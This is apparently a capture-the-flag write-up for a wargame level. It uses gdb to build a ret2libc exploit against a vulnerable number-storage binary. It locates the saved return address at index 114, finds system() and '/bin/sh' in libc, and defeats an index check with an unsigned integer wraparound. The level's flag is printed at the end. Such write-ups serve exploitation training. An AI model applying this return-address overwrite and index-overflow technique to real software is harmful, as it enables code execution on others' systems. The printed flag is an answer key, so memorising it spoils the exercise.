 We want to perform a ret2libc attack.

We have a way to store data at an index. We can use this function to change the address stored in the eip.  
```C
(gdb) disas main
Dump of assembler code for function main:
   0x08048723 <+0>:	push   %ebp
   0x08048724 <+1>:	mov    %esp,%ebp
   0x08048726 <+3>:	push   %edi
   0x08048727 <+4>:	push   %esi
   0x08048728 <+5>:	push   %ebx
   0x08048729 <+6>:	and    $0xfffffff0,%esp
   0x0804872c <+9>:	sub    $0x1d0,%esp
   0x08048732 <+15>:	mov    0xc(%ebp),%eax
   0x08048735 <+18>:	mov    %eax,0x1c(%esp)
   0x08048739 <+22>:	mov    0x10(%ebp),%eax
   0x0804873c <+25>:	mov    %eax,0x18(%esp)
   0x08048740 <+29>:	mov    %gs:0x14,%eax
   0x08048746 <+35>:	mov    %eax,0x1cc(%esp)
   0x0804874d <+42>:	xor    %eax,%eax
   0x080488e1 <+446>:	jne    0x80488f8 <main+469>
   0x080488e3 <+448>:	lea    0x24(%esp),%eax
   0x080488e7 <+452>:	mov    %eax,(%esp)
   0x080488ea <+455>:	call   0x8048630 <store_number> // WE SET A BREAKPOINT HERE : b *0x080488ea
   0x080488ef <+460>:	mov    %eax,0x1b4(%esp)
   0x080488f6 <+467>:	jmp    0x8048965 <main+578>
   0x080489ea <+711>:	lea    -0xc(%ebp),%esp
   0x080489ed <+714>:	pop    %ebx
   0x080489ee <+715>:	pop    %esi
   0x080489ef <+716>:	pop    %edi
   0x080489f0 <+717>:	pop    %ebp
   0x080489f1 <+718>:	ret    
End of assembler dump.
(gdb) b *0x080488ea
Breakpoint 1 at 0x80488ea
(gdb) r
Starting program: /home/users/level07/level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store

Breakpoint 1, 0x080488ea in main ()
(gdb) x/wx $esp
0xffffd530:	0xffffd554
(gdb) info frame
Stack level 0, frame at 0xffffd720:
 eip = 0x80488ea in main; saved eip 0xf7e45513
 Arglist at 0xffffd718, args: 
 Locals at 0xffffd718, Previous frame's sp is 0xffffd720
 Saved registers:
  ebx at 0xffffd70c, ebp at 0xffffd718, esi at 0xffffd710, edi at 0xffffd714, eip at 0xffffd71c
(gdb) 
```

At the start of the array, we have address `0xffffd554` (4294956372 in decimal)
The eip is at `0xffffd71c`(4294956828 in decimal)

If we substract both value 4294956828 - 4294956372 = 456.
Since the array is in unsigned int which is 4 bytes long, we have to divide 456 by 4 = 114.
So whatever we input in index 114, will overwrite the EIP.

Finding elements to spawn a shell :

Addr of system():
```C
(gdb) b main
Breakpoint 1 at 0x8048729
(gdb) r
Starting program: /home/users/level07/level07 

Breakpoint 1, 0x08048729 in main ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
```

Addr of "/bin/sh":
```C
(gdb) info proc mappings
process 1810
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/users/level07/level07
	 0x8049000  0x804a000     0x1000     0x1000 /home/users/level07/level07
	 0x804a000  0x804b000     0x1000     0x2000 /home/users/level07/level07
	0xf7e2b000 0xf7e2c000     0x1000        0x0 
	0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
	0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
	0xf7fd0000 0xf7fd4000     0x4000        0x0 
	0xf7fda000 0xf7fdb000     0x1000        0x0 
	0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
	0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
	0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
	0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
	0xfffdd000 0xffffe000    0x21000        0x0 [stack]
(gdb) find 0xf7e2c000, 0xf7fd0000, "/bin/sh"
0xf7f897ec
1 pattern found. 
```

When we want to write to index 114, we get blocked by this code :
```C
    if ((index % 3 == 0) || ((value >> 24) == 0xb7)) {
        puts(" *** ERROR! ***");
        puts("   This index is reserved for wil!");
        puts(" *** ERROR! ***");
        ret = 1;
```

If we overflow the UINT_MAX : 4294967295 + 456
then in int it will be divided by 4 : 1073741938

We have all our elements to change eip address.

flag = `7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC`